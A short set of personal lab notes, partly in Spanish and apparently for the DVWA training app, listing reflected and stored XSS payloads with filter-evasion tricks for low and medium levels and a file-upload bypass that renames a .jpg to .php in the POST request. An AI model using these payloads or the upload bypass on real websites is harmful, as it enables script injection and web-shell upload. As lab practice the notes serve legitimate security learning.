 
# XSS REFLE

## LOW

	<script>alert("XSS")</script>

## MEDIUM

	<script e.e>alert("XSS")</script>

## HIGH

IMPOSIBLE



# XSS STORED

## LOW

```html
message: <script>alert("XSS")</script>
```



DVWA - XSS STORED - MEDIUM

```html
name: <scripT e.e>alert("XSS2")</scripT >
```



DVWA - XSS STORED - HIGH

IMPOSIBLE

# FILE UPLOAD

## LOW

```html
archivo.php
```



## MEDIUM

```html
subirlo como archivo.jpg editar luego en la cabecera post el nombre archivo.jpg por archivo.php
```
